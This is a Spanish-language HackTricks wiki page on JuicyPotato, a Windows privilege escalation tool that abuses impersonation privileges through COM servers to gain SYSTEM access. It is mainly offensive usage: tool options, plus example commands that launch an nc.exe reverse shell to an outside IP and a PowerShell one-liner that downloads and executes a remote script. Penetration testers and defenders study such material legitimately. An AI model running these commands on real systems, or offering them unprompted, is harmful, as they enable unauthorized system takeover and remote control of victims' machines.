 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato no funciona** en Windows Server 2019 y Windows 10 build 1809 en adelante. Sin embargo, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) se pueden usar para **aprovechar los mismos privilegios y obtener acceso a nivel `NT AUTHORITY\SYSTEM`**. _**Ver:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (abusando de los privilegios dorados) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Una versión azucarada de_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, con un poco de jugo, es decir, **otra herramienta de escalada de privilegios locales, de cuentas de servicio de Windows a NT AUTHORITY\SYSTEM**_

#### Puedes descargar juicypotato de [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Resumen <a href="#summary" id="summary"></a>

[**Del Readme de juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) y sus [variantes](https://github.com/decoder-it/lonelypotato) aprovechan la cadena de escalada de privilegios basada en [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [servicio](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) teniendo el oyente MiTM en `127.0.0.1:6666` y cuando tienes privilegios `SeImpersonate` o `SeAssignPrimaryToken`. Durante una revisión de la build de Windows encontramos una configuración donde `BITS` estaba intencionalmente deshabilitado y el puerto `6666` estaba ocupado.

Decidimos armar [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Saluda a Juicy Potato**.

> Para la teoría, consulta [Rotten Potato - Escalada de Privilegios de Cuentas de Servicio a SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) y sigue la cadena de enlaces y referencias.

Descubrimos que, además de `BITS`, hay varios servidores COM que podemos abusar. Solo necesitan:

1. ser instanciables por el usuario actual, normalmente un “usuario de servicio” que tiene privilegios de suplantación
2. implementar la interfaz `IMarshal`
3. ejecutarse como un usuario elevado (SYSTEM, Administrador, …)

Después de algunas pruebas, obtuvimos y probamos una lista extensa de [CLSID interesantes](http://ohpe.it/juicy-potato/CLSID/) en varias versiones de Windows.

### Detalles jugosos <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato te permite:

* **CLSID objetivo** _elige cualquier CLSID que desees._ [_Aquí_](http://ohpe.it/juicy-potato/CLSID/) _puedes encontrar la lista organizada por SO._
* **Puerto de escucha COM** _define el puerto de escucha COM que prefieras (en lugar del 6666 codificado en duro)_
* **Dirección IP de escucha COM** _vincula el servidor a cualquier IP_
* **Modo de creación de procesos** _dependiendo de los privilegios del usuario suplantado puedes elegir entre:_
* `CreateProcessWithToken` (necesita `SeImpersonate`)
* `CreateProcessAsUser` (necesita `SeAssignPrimaryToken`)
* `ambos`
* **Proceso a lanzar** _lanza un ejecutable o script si la explotación tiene éxito_
* **Argumento del proceso** _personaliza los argumentos del proceso lanzado_
* **Dirección del servidor RPC** _para un enfoque sigiloso puedes autenticarte en un servidor RPC externo_
* **Puerto del servidor RPC** _útil si deseas autenticarte en un servidor externo y el firewall está bloqueando el puerto `135`…_
* **MODO DE PRUEBA** _principalmente para fines de prueba, es decir, probando CLSIDs. Crea el DCOM e imprime el usuario del token. Ver_ [_aquí para pruebas_](http://ohpe.it/juicy-potato/Test/)

### Uso <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Pensamientos finales <a href="#final-thoughts" id="final-thoughts"></a>

[**Del Readme de juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Si el usuario tiene privilegios `SeImpersonate` o `SeAssignPrimaryToken`, entonces eres **SYSTEM**.

Es casi imposible prevenir el abuso de todos estos servidores COM. Podrías pensar en modificar los permisos de estos objetos a través de `DCOMCNFG`, pero buena suerte, esto va a ser un desafío.

La solución real es proteger cuentas y aplicaciones sensibles que se ejecutan bajo las cuentas `* SERVICE`. Detener `DCOM` ciertamente inhibiría este exploit, pero podría tener un impacto serio en el sistema operativo subyacente.

De: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Ejemplos

Nota: Visita [esta página](https://ohpe.it/juicy-potato/CLSID/) para una lista de CLSIDs para probar.

### Obtener un shell reverso de nc.exe
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Lanzar un nuevo CMD (si tienes acceso RDP)

![](<../../.gitbook/assets/image (300).png>)

## Problemas de CLSID

A menudo, el CLSID predeterminado que utiliza JuicyPotato **no funciona** y el exploit falla. Por lo general, se requieren múltiples intentos para encontrar un **CLSID funcional**. Para obtener una lista de CLSIDs para probar en un sistema operativo específico, debes visitar esta página:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Verificando CLSIDs**

Primero, necesitarás algunos ejecutables además de juicypotato.exe.

Descarga [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) y cárgalo en tu sesión de PS, y descarga y ejecuta [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Ese script creará una lista de posibles CLSIDs para probar.

Luego descarga [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(cambia la ruta a la lista de CLSID y al ejecutable de juicypotato) y ejecútalo. Comenzará a probar cada CLSID, y **cuando el número de puerto cambie, significará que el CLSID funcionó**.

**Verifica** los CLSIDs funcionales **usando el parámetro -c**

## Referencias

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
